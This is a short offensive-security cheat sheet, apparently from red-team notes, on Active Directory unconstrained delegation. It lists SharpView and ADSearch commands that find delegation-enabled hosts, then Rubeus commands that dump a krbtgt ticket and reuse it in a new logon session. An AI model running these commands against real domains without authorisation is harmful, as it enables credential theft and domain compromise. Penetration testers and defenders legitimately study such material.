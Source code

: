 # Binaries

## 01 - Detect

### 1.1 - SharpView

```
C:\> .\SharpView.exe Get-NetComputer -Unconstrained
```

### 1.2 - [[07 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x02 - Privilege Escalation/Windows/Auditing Tools/Domain Privilege Escalation/ADSearch]]

```
C:\> .\ADSearch.exe -s "(&(objectCategory=computer)(userAccountControl:1.2.840.113556.1.4.803:=524288))" --attributes samaccountname,dnshostname,operatingsystem
```

## 02 - Exploit

### 2.1 - Rubeus

```
C:\> .\Rubeus triage

C:\> .\Rubeus dump /luid:<krbtgt_LUID> /nowrap

C:\> .\Rubeus createnetonly /program:C:\Windows\System32\cmd.exe /domain:<DOMAIN> /username:<username> /password:<fake_password> /ticket:<krbtgt_base64_encoded_ticket>
```